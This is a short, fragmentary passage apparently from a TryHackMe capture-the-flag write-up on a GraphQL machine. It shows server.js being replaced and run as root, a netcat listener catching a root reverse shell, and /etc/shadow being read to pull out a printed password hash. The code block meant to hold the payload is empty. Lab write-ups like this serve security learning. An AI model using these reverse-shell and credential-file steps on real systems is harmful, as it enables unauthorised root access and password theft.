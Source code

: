 ```js
```

```
para@ubuntu:~$ cp server.js server.js.old
para@ubuntu:~$ rm -r server.js
para@ubuntu:~$ nano server.js
para@ubuntu:~$ sudo /usr/bin/node /home/para/server.js

```

```
bibo318@parrot:~/CTFs/tryhackme/GraphQL$ nc -lnvp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.236.40 40028
Connected!
id
uid=0(root) gid=0(root) groups=0(root)
cat /etc/shadow | grep para
para:$1$CHyLRSmg$QAvdWTC70dsIHuM5KmTf20:18535:0:99999:7:::
```

`$1$CHyLRSmg$QAvdWTC70dsIHuM5KmTf20`
